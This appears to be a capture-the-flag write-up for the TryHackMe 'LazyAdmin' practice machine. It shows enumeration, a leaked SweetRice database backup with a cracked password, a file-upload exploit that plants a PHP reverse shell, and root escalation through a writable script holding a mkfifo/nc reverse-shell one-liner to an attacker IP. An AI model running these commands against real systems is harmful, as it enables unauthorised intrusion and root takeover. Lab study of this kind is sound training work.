




# [LazyAdmin - Easy linux machine to practice your skills](https://tryhackme.com/r/room/lazyadmin)

## Enumeration

### Nmap-scan
```
kali@kali:~/CTFs/lazyadmin$ nmap -sC -sV -Pn $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 08:46 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
```
- open ssh port
- open http port, httpd seems to be using the default config

**Nmap enumeration scan**
```
kali@kali:~$ nmap --script=http-enum $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 09:10 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /content/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 5.84 seconds
```

### Gobuster
1. DNS-scan
```
kali@kali:~$ gobuster dns -d $TARGET_IP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     <TARGET-IP>
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
                                                                                                                                       
kali@kali:~$ 
```

2. DIR-scan
```
kali@kali:~$ gobuster dir -u $TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-error 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <TARGET-IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> <TARGET-IP>/content/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Inspecting the HTTP-website
- default Apache2 Ubuntu landing page

#### Inspecting /content
- indicates 'SweetRice CMS' is used



## Exploiting SweetRice CMS
- [SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) -> allows us to upload a reverse-shell, valid login credentials required
- [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718) -> */content/inc* is accessable, provides backup data

### Reviewing the backup file



```
kali@kali:~/CTFs/lazyadmin/mysql_backup$ curl <TARGET-IP>/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o mysql_backup.sql
```



- looks like the username is "manager" and the password is given as md5-hash
- https://md5decrypt.net/en/ -> "Password123"

### File-Upload vulnerability

1. [prepare a reverse shell](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads)
2. get the exploit up and running (https://www.exploit-db.com/exploits/40716)
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : <TARGET-IP>/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://<TARGET-IP>/content/attachment/php-reverse-shell.php
```

- file does not appear in */content/attachment/*, the WebServer most likely filters *.php files
- uploading the script as *.phtml works



3. Set up a listener and execute the uploaded script
```
kali@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 37486
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:58:23 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm-256color
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$   
```

## Catching the user-flag
```
cd /home/itguy && cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
www-data@THM-Chal:/home/itguy$ 
```

## Catching the root-flag
```
ww-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
- backup.pl can be executed as root via `sudo` 
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- if */etc/copy.sh* is writeable, it can be used to create another reverse-shell (as root)
```
www-data@THM-Chal:/home/itguy$ cd /etc && ls -lisa | grep copy.sh
1050508  4 -rw-r--rwx   1 root root      83 May 15 15:32 copy.sh
```
- it is writeable
```
www-data@THM-Chal:/etc$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER-IP> 1337 >/tmp/f
www-data@THM-Chal:/etc$ 
```
-> setup a listener `nc -lvnp 1337` on the attacker-machine and `www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl`

```
kali@kali:~$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 50204
root@THM-Chal:/etc# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@THM-Chal:/etc# 
```
